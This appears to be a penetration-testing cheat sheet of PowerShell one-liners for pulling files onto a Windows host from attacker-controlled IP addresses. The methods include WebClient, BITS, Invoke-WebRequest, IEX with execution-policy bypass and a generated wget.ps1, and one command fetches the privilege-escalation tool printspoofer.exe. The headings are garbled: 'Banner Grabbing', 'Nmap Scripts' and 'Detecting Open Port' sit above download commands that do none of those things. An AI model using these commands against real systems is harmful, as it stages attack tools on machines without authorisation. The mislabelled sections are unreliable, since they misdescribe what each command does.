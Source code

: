 USING POWERSHELL - 
------------------------------------------------------------------------------------------------------------------


#### Detecting Open Port
	
powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/demo.txt','c:\demo.txt')

**Nmap Scripts**

powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://192.168.1.143/1.txt' -Destination 'c:\temp\1.txt'"

**Banner Grabbing**
	
$webClient.DownloadFile('http://192.168.1.143:80/1.txt','c:\temp\1.txt')

**Banner Grabbing**
	
        iwr -uri http://192.168.45.240/printspoofer.exe -Outfile printspoofer.exe

**Banner Grabbing**
	
        powershell.exe IEX(New-Object System.Net.WebClient).downloadFile('http://192.168.1.143:80/1.txt','C:\Users\public\1.txt')

**Banner Grabbing**
	
        powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://192.168.1.143/1.txt','C:\temp\1.txt')"

**Banner Grabbing**
	
        echo IEX(New-Object System.Net.WebClient).downloadFile('http://192.168.1.143:80/1.txt','C:\Users\public\1.txt') | powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile

**Banner Grabbing**
	
        powershell.exe -c wget "http://10.10.14.17/1.txt" -outfile "c:\temp\1.txt"

**Banner Grabbing**
	
        powershell.exe -c "curl.exe http://192.168.1.143:80/1.txt c:\temp\1.txt"	

**Banner Grabbing**
	
        powershell.exe Invoke-RestMethod -Uri "http://192.168.1.143/1.txt" -OutFile "c:\temp\1.txt"

**Banner Grabbing**
	
        powershell.exe Invoke-webRequest -Uri "http://192.168.1.143/1.txt" -OutFile "c:\temp\1.txt"

**Banner Grabbing**
	
        echo '$storageDir = $pwd' > wget.ps1
        echo '$webclient = New-Object System.Net.WebClient' >> wget.ps1
        echo '$url = "http://192.168.1.143/1.txt"' >> wget.ps1
        echo '$file = "c:\temp\1.txt"' >> wget.ps1
        echo '$webclient.DownloadFile($url, $file)' >> wget.ps1

        powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
